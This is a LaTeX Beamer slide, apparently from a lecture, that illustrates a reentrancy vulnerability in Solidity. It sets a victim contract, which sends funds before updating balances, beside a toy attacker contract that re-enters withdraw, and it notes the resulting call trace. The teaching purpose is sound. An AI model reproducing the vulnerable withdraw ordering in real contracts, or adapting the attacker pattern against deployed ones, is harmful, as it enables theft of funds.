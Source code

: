 \documentclass{beamer}
\begin{document}
\subsection{Examples}
\begin{frame}[fragile]
  \frametitle{Reentrace Vulnerability}
  \begin{columns}
    \begin{column}{0.5\textwidth}
      \begin{lstlisting}[numbers = none, language=Solidity, style=transitions]
      contract Victim {
        // ...
        function withdraw(unit a) {
          if(balances[msg.sender] >= a) {
            @msg.sender.call.value(a);@
            balances[msg.sender] -= a;
          }
        }
      }
      \end{lstlisting}
    \end{column}

    \begin{column}{0.5\textwidth}
      \begin{lstlisting}[language=Solidity, style=transitions, numbers=none]
      contract Attacker {
        Victim v;

        function exploit() {
          v = Victim(0x123);
          @v.withdraw(1);@
        }

        function payable() {
          @v.withdraw(10);@
        }
      }
      \end{lstlisting}
    \end{column}
  \end{columns}
  \begin{itemize}
    \item<2-> Within \textit{payable}, attacker calls \textit{withdraw}
      before victim updates persistent storage
    \item<2-> Trace \textit{transfer,transfer, ..., sstore} observed
  \end{itemize}

\end{frame}
\end{document}

